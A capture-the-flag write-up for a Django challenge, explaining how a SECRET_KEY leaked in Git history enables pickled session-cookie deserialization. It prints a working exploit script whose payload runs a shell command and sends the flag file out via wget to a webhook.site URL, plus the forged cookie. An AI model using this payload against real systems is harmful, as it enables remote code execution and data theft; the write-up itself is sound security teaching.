








# Poller

```
Have your say! Poller is the place where all the important infosec questions are asked.
```

## Challenge

> TL;DR: Django Pickled Cookie Deserialization RCE



Visiting the page, it looks pretty static and if we examine the HTML source, we see a comment pointing to what appears to be the GitHub repository for this challenge:



Once we log into the website, it looks hardcoded and no dynamic input is really received. It feels like a deadend once you have tried the usual low-hanging fruits like IDOR.



So let's look at the GitHub repo. Examining the commit history, we see an interesting commit title "Added auth templates and rotated SECRET_KEY":



Examining it, we see that the `SECRET_KEY` used in the Django application has been changed away:



From our past experiences, this is thus far looking like a Django cookie deserialization RCE challenge. In this case, we would need to obtain this `SECRET_KEY` used in the Django process, then we can generate a cookie such that when it is deserialized, it would execute our specified code.

But first, we would have to find the new `SECRET_KEY`, which appears to be stored in the environment (.env file). If we look at the commit just after this one ("Added username and login/logout buttons to navbar"), we see that the `SECRET_KEY` has been leaked from hte `.env copy` file:



Now that we have the `SECRET_KEY`, we can use the following exploit script to generate a serialized cookie that contains the code we want to execute:

<!--  -->

```py
import subprocess
import pickle
from django.core import signing
from django.contrib.sessions.serializers import PickleSerializer

SECRET_KEY = '77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!'

class Exploit(object):
  def __reduce__(self):
    return (subprocess.Popen, (
      ("cat flag.txt | xargs -I {{}} wget https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?flag={{}}"),
      0, # Bufsize
      None, # exec
      None, #stdin
      None, #stdout
      None, #stderr
      None, #preexec
      False, #close_fds
      True, # shell
      ))

print(signing.dumps(Exploit(),
    key=SECRET_KEY,
    salt='django.contrib.sessions.backends.signed_cookies',
    serializer=PickleSerializer,
    compress=True))
```

<!--  -->

Running the script to generate the cookie:

```bash
$ python3 cookie.py 
.eJxrYJ3axwABPVzFpUkFRfnJqcXFU3pYA_ILUvOmTJ6i0ZOanFiikJaTmK5XUlGiUKNQkViUXqyg66lQXV1bq1CenlqikFFSUlBspa9fnpqUkZ-frVecWZKqn2qcbJ6YYpqmm2iWlqxrYmJuqWuRaGSim5xommRiamxuZmBobg8y1xZk0BRvBj8Q6OwomRI0RQ8Adg4zXg:1nl41C:Ozn-CsUev88lhp5gtmynDvXJd0M
```

Replacing the cookie and refreshing the page should result in us getting a callback on our controlled domain, containing the flag:





Flag: `flag{a6b902e045b669148b5e92f771a68d39}`
